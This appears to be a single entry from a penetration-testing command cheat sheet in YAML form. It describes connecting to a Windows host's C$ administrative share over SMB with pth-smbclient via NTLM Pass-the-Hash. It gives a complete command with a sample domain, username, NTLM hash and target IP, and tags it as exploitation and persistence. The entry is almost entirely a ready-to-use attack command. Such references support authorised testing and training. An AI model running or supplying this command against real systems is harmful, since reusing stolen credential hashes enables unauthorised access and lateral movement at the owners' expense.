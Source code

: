 ```yaml
---
description: Connect to an SMB share on a remote Windows host using smbclient with NTLM Pass-the-Hash.

Command Reference:
    Target IP: 10.10.10.1
    Domain: test.local
    Username: john
    Hash: 580B16D486D8D2CAFA00B314D41FA396 (NTLM hash)

command: |
  pth-smbclient -U test.local/john%00000000000000000000000000000000:580B16D486D8D2CAFA00B314D41FA396 //10.10.10.1/C$

items:
  - Hash

services:
  - SMB
  - NTLM

OS:
  - Windows

attack_types:
  - Exploitation
  - Persistence

references:
  - https://www.samba.org/samba/docs/current/man-html/smbclient.1.html
  - https://github.com/byt3bl33d3r/pth-toolkit
  - https://learn.microsoft.com/en-us/windows/win32/fileio/microsoft-smb-protocol-and-cifs-protocol-overview
---
```

